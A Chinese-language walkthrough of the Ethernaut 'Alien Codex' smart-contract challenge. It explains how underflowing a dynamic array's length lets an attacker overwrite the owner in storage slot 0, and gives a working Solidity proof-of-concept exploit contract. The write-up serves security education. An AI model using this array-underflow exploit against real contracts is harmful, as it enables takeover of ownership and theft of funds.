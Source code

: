 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-14'
date: 2022-12-16 12:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'
---
```


<!-- more -->

#### 第十九关 Alien 思路与POC

#### 目标: 更改合约的拥有者

##### 先看代码:

##### 可是似乎合约中并没有任何变量存储合约的部署者地址如何更改呢,但是注意看此合约继承了Ownable合约.实际上合约的部署者地址就存储在Ownable合约中的_owner变量中

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {
   //由于此合约继承了Ownable所以实际上address private _owner 和下面的这个contact变量就存在此合约的slot0中   
  bool public contact;   
  // solidity中字节数组如果没有指定元素数量的话默认空间长度就是对应合约存储空间2^256 -1
  bytes32[] public codex; 

  modifier contacted() {
    assert(contact);//判断contact变量是否为true,否则revert
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

//看起来我们没有直接的方式修改private _owner变量,但是注意看这个方法
  function retract() contacted public {
  /*
  如果字节数字为空的情况下再减去元素是不是就内存溢出了呢？
  那么现在如果想要修改slot0的数据是不是可以:
  codex[2^256-1(合约存储槽总长度) - keccak256(1) + 1(溢出的字节数组长度为-1所以此处+1读取下标0)] = data
  
 question1: 为什么字节数组长度可以为负? 
   其实是因为 EVM 不会验证一个数组的长度
 question2: 为什么此时字节数组能够根据下标位置对应修改slot0的数据?
   因为此时的数组是溢出的,此时的字节数组[下标]-1已经对应了整个合约的slot 2^256 - 1长度存储空间.
 question3: 为什么字节数组下标需要这么麻烦呢 不是直接 1 2 3 呢
   比如: 
   codex[ keccak256(1) ] = codex[0]
   codex[ keccak256(2) + 1] = codex[1]
  因为字符串或字节类型存放的数据大小在EVM编译器来看是不可预知的,无法在编译期直接确定其存储位置.因此 Solidity 在编译动态数字、字典数据时采用的是特定算法。
   */
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
//部分Ownable合约代码
abstract contract Ownable is Context {
    address private _owner;
```

##### poc思路:point_right:：所以我们需要做的就是使字节数组溢出,根据 make_contact ->  retract ->  revise 这个调用顺序

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract hackAlien {

 AlienCodex public alien   = AlienCodex(0x48a57CBA06d5AE4e82a13e39465fB82cAD0c4DC8);

//计算动态数组下标与slot0的对应位置
uint public index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;

 function byteOverflow(address  _owner) external   { 
     //满足条件
     alien.make_contact();
     //构造字节数组溢出
     alien.retract();
     //利用溢出修改slot0数据
     bytes32 owner = bytes32(uint256(uint160(_owner)));
     alien.revise(index , owner);

 }
}
```

```js
await contract.owner() //查看owner是否更改成功
```



#### 还要说的一点就是:这种字节数组直接.length -- 这种操作再solidity0.6.0开始就已经被禁止:shield: